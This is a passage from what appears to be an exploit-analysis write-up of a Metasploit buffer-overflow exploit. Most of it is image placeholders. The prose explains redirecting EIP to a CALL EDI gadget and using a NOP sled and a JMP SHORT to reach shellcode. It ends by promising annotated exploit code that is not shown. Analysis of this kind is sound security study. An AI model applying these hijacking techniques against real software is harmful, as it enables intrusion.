







### Screen 6)


This is the chosen address to redirect EIP to, CALL EDI. At the time of the execution of this, EDI contains the address of the original beginning of the path string 0x0141F60C.




### Screen 7)


This is the jumper code, CALL EDI leads to this piece of code. 0x0141F60C-0x0141F615 are essentially randomised NOPs and have no direct function. However, these lead execution up to the so-called JMP SHORT operation, this adds 0x62 to EIP, jumping execution into the actual effective shellcode. 



Thus concludes my investigation into the action of the metasploit exploit. Hopefully you can see from the explanation over the preceding sections the building blocks of implementing this exploit yourself. Regardless, in order to round off this article nicely, my annotated exploit code is in the following section. Enjoy!

